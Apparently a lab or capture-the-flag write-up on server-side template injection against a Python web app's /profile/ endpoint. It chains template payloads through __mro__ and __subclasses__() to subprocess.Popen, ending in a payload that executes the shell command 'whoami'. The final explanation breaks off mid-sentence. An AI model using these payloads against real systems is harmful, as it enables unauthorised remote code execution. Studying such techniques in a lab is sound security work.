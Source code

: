 

http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__ }}
===> Explanation 1:
---> The self.__mro__ attribute returns a tuple, but the mro() method returns a     
     python list. When we search for the mro in a class that is involved in 
     python multiple inheritance, an order is followed. First, it is searched in  
     the current class. If not found, the search moves to parent classes.
---> refrence: https://data-flair.training/blogs/python-multiple-inheritance/

===> Explanation 2:
---> mro() stands for Method Resolution Order. It returns a list of types the class 
     is derived from, in the order they are searched for methods. mro() and __mro__
     work only on new style classes. In Python 3, they work without any issues. In
     Python 2, however, those classes need to inherit from object.
---> refrence: https://stackoverflow.com/questions/2010692/what-does-mro-do


===> this payload return the following response:
     Welcome to the profile of (<class 'str'>, <class 'object'>)!




http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1] }}
===> since we get from __mro__ / mro() either a list or a tuple we can 
     which item from those we want & since most of the choose things in 
     python are objects/classes it will help with the next payload.
===> this payload return the following response:
     Welcome to the profile of <class 'object'>!


http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__() }}
===> __subclasses__ method returns the subclasses of the class.
     subclasses are the classes inhereting
===> refrence: https://pybit.es/articles/python-subclasses/
===> this payload returns ALL of the subclass that the <class 'object'> is 
     being inherited into and since most things in python are objects it means
     i can basicly see the list of all classes in the python file loaded/executed
     in memory !!! this will help with especially with the next payload...


http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401] }}
===> [401] from the list mentioned before is the popen function belonging
     to the subprocess library/class. this function allows us to execute
     OS commands meaning in other words WE GOT RCE BAABBYYY!!!
===> refrence: https://www.geeksforgeeks.org/python-subprocess-module/
===> this payload response will return:
     Welcome to the profile of <class 'subprocess.Popen'>!
#    NOTE that calling a refrenced method/class via accessing its name
     via the __class__ / __mro__ / __subclasses__ keywords will execute it


http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
===> lets breakdown the last componenets needed for this to work. if
     any of the last components (after [401]) will be missing the 
===> refrence : https://stackoverflow.com/questions/3172470/actual-meaning-of-shell-true-in-subprocess
